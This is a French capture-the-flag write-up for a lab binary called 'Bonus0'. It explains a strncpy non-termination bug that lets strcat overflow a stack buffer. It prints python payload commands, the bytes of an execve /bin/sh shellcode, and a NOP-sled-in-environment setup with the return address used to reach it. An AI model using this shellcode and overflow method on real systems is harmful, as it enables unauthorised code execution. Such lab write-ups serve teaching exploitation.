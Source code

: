 ## Bonus0

Au premier lancement, le binaire attend un premier argument sur l'entrée
standart, puis un deuxieme.

On observe un appel a `pp()`, qui fait deux appel a `p()`. C'est cette fonction
qui va nous intéresser. Elle affiche le caractère ` - `, lit sur l'entrée
standard, et stocke le resultat dans un buffer de `4096` bytes. Ensuite l'appel
a `strchr()` va checher le caractère `10 (\n)` dans le buffer, et le remplace
par `0 (\0)`, enfin, l'appel a `strncpy()` copie les 20 premiers bytes du buffer
dans la destination passé en argument a la fonction `p()`. 
Apres ces deux copies dans deux buffer distincs, un premier buffer est copie dans le buffer passé en parametre a pp avec un `strcpy()`. Un espace est inserré a la fin du buffer, puis la second string copié est ajoutée dans le buffer avec un `strcat()`. 

La fonction strncpy de p nous interesse particulierement, cat lorsque dst est superieur ou egal la len, la string src n'est pas terminée par un `\0`.

L'astuce ici consiste a ecrire dans le premier buffer une chaine de caracteres termine par un '\0', mais dans le second une chaine non terminée. Les deux buffers etant cote a cote, le strcpy dans pp copiera bien 20 caracteres, mais le strcat copiera 40 caracteres(les deux buffers a la suite). Le buffer originel faisant 54 caracteres, nous avons un overflow que nous pouvons exploiter a loisir.


#### Amusons nous a présent avec la mémoire

![image](https://user-images.githubusercontent.com/29956389/90001786-2a39fa00-dc92-11ea-94b4-af8989aa97d5.png)

On segfault sur `0x45444444` soit `DDDE`, l'offset est de `9` bytes. Le but est donc d'y insérer l'adresse
de notre shellcode.

On utilisera un fichier pour insérer notre input, cela sera plus facile que
d'insérer des caractères non-imprimables a la main dans GDB.

`$ python -c 'print "i"*64 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90002664-3ecac200-dc93-11ea-8bb9-36ca70d1177b.png)

On obtient un `SIGSEGV` sur une adresse différente, et dans la fonction `p()`,
bizarre. Observons ce qui se passe avec un breakpoint avant l'appel a `strchr()`:

![image](https://user-images.githubusercontent.com/29956389/90003198-07104a00-dc94-11ea-818b-b6eecc69e87d.png)

On observe que la premier ligne `iiii...` est évalué une deuxième fois par
`strchr()`, alors que le `\n` a déja été remplacé par une `\0`, ce qui explique
le `SIGSEGV` a l'instruction d'apres:

![image](https://user-images.githubusercontent.com/29956389/90003648-a8979b80-dc94-11ea-877c-81d9e1f0801f.png)

Cela est du au fonctionnement de `read()` (On se souvient du GetNextLine), tout
le fichier est lu jusqu'au `\0` ou `4096` bytes. Notre ligne avec notre adresse
a executer se retrouve au mauvais endroit dans la stack! Il faut donc remplacer
`print 'i'*64 + '\x0a'` dans notre commande par `print 'i'*4095 + '\x0a'`.

On réesaye avec la commande corrigé:

`$ python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004167-7fc3d600-dc95-11ea-8834-ed5521ee6067.png)

Toujours pas! On regarde donc a nouveau l'entrée qu'on avait mit en premier pour faire segfault notre binaire au début. La seule différence est la longueur de notre deuxieme chaine de caractères. Essayons alors de rajouter quelques bytes a la fin, et prennons `20 bytes` comme référence (`strncpy(dest, &buffer, 20)`):

Soit:

`$ python -c 'print [4095 bytes] + "\n" + [9 bytes] + [4 bytes de notre adresse] + [20 - (9 + 4) = 7 bytes] + "\x0a"' > /tmp/xploit`

Ce qui donne:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xef\xbe\xad\xde" + "1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90004691-5eafb500-dc96-11ea-8e7d-504a6c3fa35b.png)

Cela marche enfin !

On a maintenant le choix d'inserer notre nopsled + shellcode soit dans le
buffer, soit dans l'environement, nous choissisons la deuxieme, pour aucune
raison particulière.

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*512')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ + 8)`

`> de 0xbffff6c2 a 0xbffff8f4`

`0xbffff6c2 + 256 (Taille sled / 2) = 0xbffff7c2`

Et on lance:

`python -c 'print "i"*4095 + "\x0a" + "ABCDEFGHI" + "\xc2\xf7\xff\xbf" +
"1234567" + "\x0a"' > /tmp/xploit`

![image](https://user-images.githubusercontent.com/29956389/90006073-830c9100-dc98-11ea-923a-b5efe5915dc7.png)

On essaye donc en dehors de GDB:

![image](https://user-images.githubusercontent.com/29956389/90006208-bea75b00-dc98-11ea-9826-ed0bcc70237b.png)

